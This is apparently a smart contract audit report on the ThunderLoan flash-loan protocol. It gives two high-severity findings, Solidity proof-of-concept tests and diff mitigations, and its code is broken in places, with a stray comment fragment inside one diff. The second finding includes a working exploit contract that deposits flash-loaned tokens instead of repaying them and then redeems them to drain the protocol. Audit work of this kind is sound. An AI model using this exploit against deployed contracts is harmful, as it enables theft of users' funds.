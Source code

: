 [H-1] Incorrect Exchange Rate Update in `ThunderLoan::deposit` Function

Description: The `ThunderLoan::deposit` function in the protocol has an issue related to the improper updating of the asset token's exchange rate, which leads to incorrect redemption behavior. The exchange rate is updated within the deposit function even if no one yet took a flash one and deposited some fees into the protocol.

For example, if an LP deposits `ERC20` tokens with an exchange rate of 1 (1 asset token for 1 underlying token), the incorrect update may cause the exchange rate to shift improperly. This shift impacts the calculation of the underlying tokens during the redemption process, locking the LP to redeem back his funds.

Impact: This bug is `high` severity because it directly impacts the core functionality of the protocol—accurate deposit and redemption of tokens. Users are unable to correctly redeem their underlying tokens after depositing. This can result in locked funds that LP can't pull out.

Proof of Concept: Add the following test case in `ThunderLoanTest.t.sol` that proves the issue

1. The mock tokenA is added to the allowedTokens list
2. The LP deposits 1000e18 of tokenA and gets 1000e18 asset tokens in exchange since the exchange rate is 1 (1 UnderlyingToken = 1 AssetToken)
3. After minting the exchange rate is updated to `1.003.000.000.000.000.000`
4. LP tries to reedem all of his assetTokens and get back the underlying token, but since the amount of underlying tokens that needs to be returned back to the LP relies on the exchange rate - they are calculated not properly which leads to `ERC20InsufficientBalance` error since the asset token contract has not that much underlying tokens to give back


```javascript
    function testRedeemWrongUpdateOfExchangeFee() public setAllowedToken hasDeposits {
        // LP deposits 1000 tokenA
        // LP gets 1000 assetToken due to the exchange rate = 1
        AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);
        
        uint256 initialBalanceOfAssetTokensAfterDeposit = assetToken.balanceOf(liquidityProvider);
        uint256 initialBalanceOfUnderlyingTokensAfterDeposit = tokenA.balanceOf(liquidityProvider);

        vm.prank(liquidityProvider);
        vm.expectRevert();
        thunderLoan.redeem(tokenA, type(uint256).max); // e redeem all asset tokens of the luqiudity provider

        // assert(assetToken.balanceOf(liquidityProvider) == totalAssetTokensAfterDeposit - DEPOSIT_AMOUNT);
        // assert(tokenA.balanceOf(liquidityProvider) == initialBalanceOfUnderlyingTokensAfterDeposit + DEPOSIT_AMOUNT);
    }
```

Recommended Mitigation:

1. Do not update the exchange rate inside the `ThunderLoan::deposit` function

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        fee and totalSupply of the asset token
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        
        emit Deposit(msg.sender, token, amount);
        
        assetToken.mint(msg.sender, mintAmount);
        
-       uint256 calculatedFee = getCalculatedFee(token, amount);
        
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

[H-2] Flash Loan Abuse Vulnerability (Reentrancy + Improper Repayment Handling)

Description: A critical vulnerability exists in the flash loan functionality. The issue arises due to the combination of the flash loan process and the interaction with the `ThunderLoan::deposit` and `ThunderLoan::redeem` functions. Specifically, a malicious user can take out a flash loan and instead of repaying the borrowed tokens, call the `ThunderLoan::deposit` function to transfer the flash-loaned tokens to the AssetToken contract. This satisfies the condition of the flash loan check, as the AssetToken staring and ending balance are the same. However, the user receives asset tokens in return, which can later be redeemed for the underlying tokens, effectively bypassing the repayment requirement.

Impact:
1. The protocol suffers financial loss as the borrowed flash loan is not truly repaid; instead, the attacker retains access to the underlying assets.
2. The attacker can repeat the exploit, continuously draining the protocol's liquidity and leading to insolvency.

Proof of Concept: The issue is proved in the following test case inside `ThunderLoanTest.t.sol`

1. TokenA is set as allowed token
2. Liquidity Provider user deposits 1000e18 underlying(tokenA) tokens to the ThunderLoan protocol
3. Malicious user creates a `MaliciousDepositFlashLoanReceiver` contract with the `executeOperation` function calling `deposit` instead of `repay` and calling the `flashloan` function which gives 100e18 underlying(tokenA) tokens to the
receiver contract, which instead of repaying doing a deposit, which gives back the loan to the asset token, but also receiver contracts takes asset tokens in return.
4. Receiver contract uses the asset tokens to call `redeem` function and take back the underlying(tokenA) tokens

```javascript

    function testDepositInsteadOfRepayOnFlashLoan() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        MaliciousDepositFlashLoanReceiver receiverContract = new MaliciousDepositFlashLoanReceiver(address(thunderLoan));
        uint256 initialBalanceOfTokenAReceiver = tokenA.balanceOf(address(receiverContract));
        uint256 flashloanAmount = 100e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, flashloanAmount);

        // mint some tokenA to the receiver contract so he can pays the fee
        tokenA.mint(address(receiverContract), fee);

        // user A takes a flash loan of 100e18 tokenA, but in the executeOperation function of the receiver contract
        // we are calling deposit instead of repay which retrievs the balance of thunderLoan but mints ~99.970 ASSET tokens to the receiver contract
        thunderLoan.flashloan(address(receiverContract), tokenA, flashloanAmount, "");
        vm.stopPrank();

        vm.startPrank(address(receiverContract));
        // here we burning all of the asset tokens that we recieved from the flash loan (in deposit function)
        // and we get back the underlying tokenA
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        uint256 endingBalanceOfTokenAReceiver = tokenA.balanceOf(address(receiverContract));

        // the receiver contract stole all the money from the flash loan
        assert(endingBalanceOfTokenAReceiver > initialBalanceOfTokenAReceiver + flashloanAmount + fee);
    }

    contract MaliciousDepositFlashLoanReceiver is IFlashLoanReceiver {
        ThunderLoan thunderLoan;

        constructor(address _thunderLoan) {
            thunderLoan = ThunderLoan(_thunderLoan);
        }

        function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address /* initiator */,
            bytes memory /* params */
        )
            external
            returns (bool) {
            IERC20(token).approve(address(thunderLoan), amount + fee);
            thunderLoan.deposit(IERC20(token), amount + fee);

            return true;
    }
}
```

Recommended Mitigation: Possbile mitigation for this issue is to rely on `s_currentlyFlashLoaning` state variable
by checking if the flash loan process is active. If it's active the user won't be able to deposit at this time.


```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
+       if (isCurrentlyFlashLoaning(token)) {
+          revert ThunderLoan__CurrentlyFlashLoaning(token);
+       }
        // e get the asset token contract based on the underlying token
        AssetToken assetToken = s_tokenToAssetToken[token];
        // e get it's assetToken exchange rate - which is calculated based on the fee and totalSupply of the asset token
        uint256 exchangeRate = assetToken.getExchangeRate();
        // e calculate how much assets tokens should be minted for the user based on the exchange rate and the amount user wants to deposit
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        // e emit the deposit event
        emit Deposit(msg.sender, token, amount);
        // e mint the calculated asset tokens to the user
        assetToken.mint(msg.sender, mintAmount);
        // e calculate the new exchange rate based on the token price and amount user deposited
        uint256 calculatedFee = getCalculatedFee(token, amount);
        // e update the exchange rate
        // @audit-high - this unnessrayly updates the exchange rate which causes an issue in the redeem function
        assetToken.updateExchangeRate(calculatedFee);
        // transfer the token with the specified deposited amount to the asset token
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```